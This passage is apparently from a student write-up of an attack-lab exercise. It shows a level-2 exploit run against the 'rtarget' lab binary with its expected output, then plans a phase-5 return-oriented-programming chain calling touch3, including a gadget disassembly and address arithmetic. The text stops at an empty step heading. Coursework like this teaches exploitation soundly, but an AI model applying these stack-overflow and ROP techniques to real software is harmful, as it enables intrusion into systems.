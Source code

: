 Run using

```
cat rtarget.l2.txt | ./hex2raw | ./rtarget
```

Expected output
```
Cookie: 0x2a39efbd
Type string:Touch2!: You called touch2(0x2a39efbd)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

---

### phase 5

For this final phase, we need to invoke `touch3` with a pointer to a string representation of our cookie (just like in phase 3 for `ctarget`). But, just like phase 4, we will have to use gadgets to accomplish this instead of just code injections.

it will go:

```
buffer (40 bytes)
movq %rsp, %rdi
popq %rax
offset (to have room for the touch 3 address)
movq %rax, %rsi
add_xy
movq %rax %rdi
touch3
cookie string
```

since this phase is unecessarily lengthy, I will break it down into steps.

#### step1

For this step, you want to be careful of where `48 89 e0` is placed. Specifically, you want it to be placed right next to the `c3` so that it returns.

`48 89 e0 c3 movq %rsp to %rax`

```
0000000000402898 <addval_372>:
  402898:	f3 0f 1e fa          	endbr64 
  40289c:	8d 87 4c 48 89 e0    	lea    -0x1f76b7b4(%rdi),%eax
  4028a2:	c3                   	ret
```

`40289c + 3 = 40289f`


#### step2
